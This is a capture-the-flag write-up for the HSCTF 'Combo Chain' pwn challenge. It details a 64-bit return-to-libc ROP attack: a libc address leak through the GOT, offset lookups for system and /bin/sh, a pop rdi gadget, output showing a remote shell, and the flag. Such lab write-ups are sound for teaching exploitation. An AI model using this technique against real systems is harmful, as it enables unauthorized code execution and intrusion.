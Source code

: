 # Combo Chain
Binary Exploitation

## Challenge 

	I've been really into Super Smash Brothers Melee lately...

	nc pwn.hsctf.com 2345

	libc SHA-1: 238e834fc5baa8094f5db0cde465385917be4c6a libc.so.6 
	libc6_2.23-0ubuntu11_amd64

	6/3/19 7:35 AM: Binary updated, SHA-1: 0bf0640256566d2505113f485949ec96f1cd0bb9
	combo-chain

Hint: What's a ROP?

## Solution

Given 64 bit ELF binary to do ROP.

Reference: 
- https://blog.techorganic.com/2016/03/18/64-bit-linux-stack-smashing-tutorial-part-3/
- https://dustri.org/b/debugging-rop-like-a-pro.html
- https://ocw.cs.pub.ro/courses/cns/labs/lab-10 
- https://sidsbits.com/Defeating-ASLR-with-a-Leak/
- https://github.com/Naetw/CTF-pwn-tips/blob/master/README.md#find-binsh-or-sh-in-library
- https://github.com/osirislab/CTF-Solutions/blob/master/NULLCON_HACK_IM_2014/vuln3/strace.sh
- https://security.stackexchange.com/questions/179747/leak-a-got-entry-using-return-to-printfplt
- https://www.pwndiary.com/write-ups/p-w-n-ctf-2018-babypwn-write-up-pwn115/

Fuzz length, I got 16 as offset

	# pwn cyclic 20 | strace ./combo-chain
	--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x61616165} ---
	+++ killed by SIGSEGV +++
	# pwn cyclic -l 0x61616165
	16

#### Leak LIBC

In order to leak libc, we need to do the following in ROP form.s

	printf@plt(*printf@got)

This will give us the address of printf in libc.


Decompile in hopper. Find PLT and GOT of printf

	j_printf:        // printf
	0000000000401050         jmp        qword [printf@GOT]     

	printf@GOT:        // printf
	0000000000404028         dq         0x0000000000405018                          ; DATA XREF=j_printf

Use objdump, we can find GOT also

	# objdump -R combo-chain | grep printf
	0000000000404028 R_X86_64_JUMP_SLOT  printf@GLIBC_2.2.5

#### Offsets to system (Locally)

Do locally check using LDD

    # ldd -r -v combo-chain
        linux-vdso.so.1 (0x00007ffdbc7fb000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f39ab941000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f39abb0d000)

        Version information:
        ./combo-chain:
            libc.so.6 (GLIBC_2.2.5) => /lib/x86_64-linux-gnu/libc.so.6
        /lib/x86_64-linux-gnu/libc.so.6:
            ld-linux-x86-64.so.2 (GLIBC_2.3) => /lib64/ld-linux-x86-64.so.2
            ld-linux-x86-64.so.2 (GLIBC_PRIVATE) => /lib64/ld-linux-x86-64.so.2

    # readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep __libc_start_main
      2224: 0000000000023fb0   446 FUNC    GLOBAL DEFAULT   13 __libc_start_main@@GLIBC_2.2.5

    # readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system           
      1418: 00000000000449c0    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5

	# strings -tx /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
	 181519 /bin/sh

#### Offsets to system (Server)

Lookup table on https://libc.blukat.me/

https://libc.blukat.me/d/libc6_2.23-0ubuntu11_amd64.symbols 

	printf 0000000000055800
	gets 000000000006ed80
	system 0000000000045390
	str_bin_sh 18cd57

#### ROP gadgets

This is a 64-bit system, so the parameters need to be pop-ed onto RDI

	# ROPgadget --binary combo-chain | grep 'pop rdi'
	0x0000000000401263 : pop rdi ; ret

#### Solved for flag

Now we have all the info we need, I tried it locally and it was a success.

However, when doing on the server, it did not work.

After looking around, I changed the leaking of printf@got() to gets@got() and it worked. Must be some quirks.

Cat flag

	# python3 solve_rop.py 
	b'Dude you hear about that new game called /bin/sh? Enter the right combo for some COMBO CARNAGE!: '
	[!] Leaked gets@libc: b'\x80=\x82\xc2\xd0\x7f'
	[!] Leaked gets@libc: 0x7fd0c2823d80
	[!] Calculate system@libc: 0x7fd0c27fa390
	[!] Calculate binsh@libc: 0x7fd0c2941d57
	b' you hear about that new game called /bin/sh? Enter the right combo for some COMBO CARNAGE!: '
	ls
		bin
		combo-chain
		combo-chain.c
		dev
		flag
		lib
		lib32
		lib64
	cat flag
		hsctf{i_thought_konami_code_would_work_here}

## Flag

	hsctf{i_thought_konami_code_would_work_here}
